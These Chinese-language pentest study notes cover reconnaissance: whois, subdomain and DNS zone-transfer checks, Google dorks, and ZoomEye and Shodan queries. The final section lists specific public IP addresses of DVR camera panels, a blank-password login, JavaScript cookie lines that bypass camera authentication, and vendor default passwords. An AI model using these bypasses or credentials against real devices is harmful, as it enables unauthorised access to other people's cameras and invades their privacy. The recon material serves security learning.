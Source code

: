 # 信息收集

在划定了测试范围后，就需要进入信息收集阶段。在这个阶段，渗透人员需要使用各种公开资源尽可能地获取测试目标的相关信息。

testfire.net 漏洞扫描器AppScan
vulnweb.com

DNS信息
在收集DNS信息的时候，主要关注域名注册商，管理员联系方式，电话和邮箱，子域名等信息。

- whois 查询
whois 是一个集成在kali虚拟机中的小工具
whois工具可以用来查询域名注册信息
[whois domain]
可以通过站长之家进行whois 查询[http://whois.chinaz.com]
除了用whois查询之外，还可以进行反查
@ 邮箱反查
@ 注册人反查
@ 电话反查

- 子域名查询
可以查询子域名的网站[https://searchdns.netcraft.com/]，需要科学上网。在表单中直接提交域名即可，这种方法查询大型网站比较有优势
 @ netcraft
 @ 证书

- 域传送漏洞
DNS区域传送(DNS zone transfer)指的是一台备用服务器使用来自主服务器的数据刷新自己的域(zone)数据库。这为运行中的DNS服务器提供了一定的冗余度，其目的是为了防止主的域名服务器因意外故障变得不可用时影响到整个域名的解析。一般来说，DNS区域传送操作只在网络里真的有备用域名DNS服务器时才有必要用到，但许多DNS服务器却被错误地配置成只要有client发出请求，就会向对方提供一个zone数据库的详细信息，所以说允许不受信任的因特网用户执行DNS区域传送(zone transfer)操作是后果最为严重的错误配置之一。

可以使用dig工具来检测传送漏洞，命令如下[dig axfr@dns.example.com]
通过域名传送漏洞
  子域名信息
  子域名对应的IP地址

Layer
dnsrecon

ping 非权威解答
nslookup 非权威解答
dig
dnsenum 推荐 会自动检测域传送漏洞

路由追踪

- CDN加速问题
CDN是内容分发网络
本意是进行节点缓存，使网络访问速度加快。一般情况下是没办法得到目标网站的真实IP的
参考资料如：
 http://www.91ri.org/6233.html
 http://www.91ri.org/3563.html

- IP查询

IP 查询 站长之家

同IP网站查询 同一个IP上的网站

IP whois 查询

IP2Location 查询IP 地址经纬度
https://www.maxmind.com/en/home

通过GPS查询物理信息
http://www.gpsspg.com/maps.htm

利用搜索引擎搜集信息
- google hacking 
google机器人，爬取全世界所有网站的内容。google hacker就是利用搜索引擎语法，获取有关网站的信息。如果google搜索用不了，可以考虑其他搜索引擎

site  指定网站
""    包含关键字
inurl 在url中出现的关键字
filetype 文件类型  不太好用

@ 探索网站目录结构
"parent directory" site:testfire.net

@ 搜索容易存在sql注入的页面
site:testfire.net inurl:login

@ 搜索指定的文件类型
filetype pdf

@ 搜索phpinfo()
intext:"PHP Version" ext:php intext:"disabled"  intext:"Build Date" intext:"System" intext:"allow_url_fopen"

@ 搜索PHPstudy

- 钟馗之眼
[https://www.zoomeye.org/]
支持公网设备指纹检索和Web指纹检索。

@ 搜索iis6.0组件
app:"Microsoft IIS httpd" ver:"6.0"

@ 搜索开启3389端口的windows主机
port:3389 OS:windows

- shodan
https://www.shodan.io/

网站信息收集
  收集指纹信息
  Web服务器信息
  netcraft
  Wappalyzer
  

- 利用shodan搜索
JAWS/1.1

- 空口令登入
点击第一条连接，即可进入登录页面

使用口令[admin/空],即可进入后台，查看摄像头
http://197.149.45.145/view2.html

- 登录绕过
http://86.99.112.102:9000/view2.html
在控制台输入以下JS代码，然后直接访问/view2.html，即可绕过登录验证进入控制台
document.cookie="dvr_camcnt=4";
document.cookie="dvr_usr=admin";
document.cookie="dvr_pwd=123";

- 其他摄像头默认账号密码
@ 海康威视IP网络摄像机admin 密码：12345
Hikvision
Server:DVRDVS-Webs
@ 大华网络摄像机admin,密码：888888
@ 天地伟业网络摄像机Admin 密码：111111

参考：
域传送漏洞：
https://github.com/lijiejie/edu-dns-zone-transfer
收集子域名的思路
https://www.secpulse.com/archives/53182.html
Web信息收集
https://blog.csdn.net/rebu1l/article/details/78763738
shodan语法
http://www.freebuf.com/sectool/121339.html
关于摄像头
http://0day5.com/archives/3766/
GHDB
https://www.exploit-db.com/google-hacking-database/
